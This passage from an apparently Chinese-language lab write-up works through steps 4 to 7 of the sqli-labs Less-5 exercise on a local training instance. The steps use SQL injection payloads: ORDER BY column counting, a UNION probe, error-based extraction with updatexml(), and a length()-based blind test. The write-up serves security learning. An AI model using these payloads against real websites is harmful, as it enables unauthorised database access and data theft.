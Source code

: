 ![Pasted image 20250313170450](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313170450.png)
4.构造`?id=1‘ order by 1 --+`通过order by子句来判断该数据表的字段数，页面显示正常
```
http://localhost/sqli-labs/Less-5/?id=1' order by 1 --+
```
![Pasted image 20250313170613](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313170613.png)
构造`?id=1' order by 3 --+`页面显示正常
构造`?id=1' order by 4 --+`页面报错，由此可知该表**字段数为3**
```php
http://localhost/sqli-labs/Less-5/?id=1' order by 3 --+
```
![Pasted image 20250313170613](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313170613.png)
5.构造`?id=-1' union select 1,2,3 --+`判断回显点，结果发现行不通
```php
http://localhost/sqli-labs/Less-5/?id=1' union select 1,2,3 --+
```
![Pasted image 20250313170713](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313170713.png)
6.构造`?id=1' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) --+`发现可以进行盲注
```php
http://localhost/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) --+
```
![Pasted image 20250313171431](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313171431.png)
7.也可以使用length()来判断数据库名的长度
```php
http://192.168.58.128/sqli-labs/Less-5/?id=1'and length((select database()))>7 --+
```
![Pasted image 20250313194135](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313194135.png)